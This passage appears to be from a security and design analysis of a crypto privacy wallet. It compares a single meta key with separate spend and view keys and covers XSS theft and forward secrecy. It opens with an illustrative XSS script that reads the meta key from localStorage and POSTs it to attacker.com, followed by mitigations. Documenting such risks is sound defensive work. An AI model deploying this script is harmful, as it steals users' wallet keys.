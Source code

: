 ```typescript
// XSS attack scenario
<script>
  // Attacker injects malicious script
  const stolen = localStorage.getItem("privacy-cash-meta-key-...");
  fetch("https://attacker.com/steal", {
    method: "POST",
    body: stolen
  });
  // Attacker now has your meta key!
</script>
```

**Mitigation**:
- Use Content Security Policy (CSP)
- Encrypt meta key with SIWS signature
- Store in more secure storage (IndexedDB with encryption)
- Use session-only storage (lose on refresh, safer)

---

### Risk: No Forward Secrecy

**Problem**: If meta key is compromised, all past transactions are revealed

```typescript
// Attacker steals meta key at time T
// Attacker can now decrypt:
✅ All past deposits (scan historical encrypted_outputs)
✅ All past withdrawals (regenerate nullifiers)
✅ Complete transaction history

// There's NO forward secrecy!
// Past is forever compromised
```

**PIVY Improvement**: Rotating viewing keys (future enhancement)

```typescript
// Generate new MetaView key periodically
const metaViewKey_2024 = generateViewingKey("2024");
const metaViewKey_2025 = generateViewingKey("2025");

// 2024 key compromised → Only 2024 transactions revealed
// 2025 transactions remain safe!
```

---

## Comparison Table

| Feature | Privacy Cash | PIVY (Proposed) |
|---------|-------------|-----------------|
| **Keys** | 1 meta key (spend+view) | 2 meta keys (separate) |
| **Wallet Prompts** | Only for gas | Only for gas |
| **Backend Scanning** | ❌ No (no view key) | ✅ Yes (share view key) |
| **Push Notifications** | ❌ No | ✅ Yes |
| **Selective Disclosure** | ❌ No | ✅ Yes (share view key) |
| **Accountant Access** | ⚠️ Also gets spend key | ✅ View key only |
| **Regulatory Compliance** | ⚠️ Full key exposure | ✅ View key only |
| **Security** | 🟡 Single point of failure | 🟢 Granular access |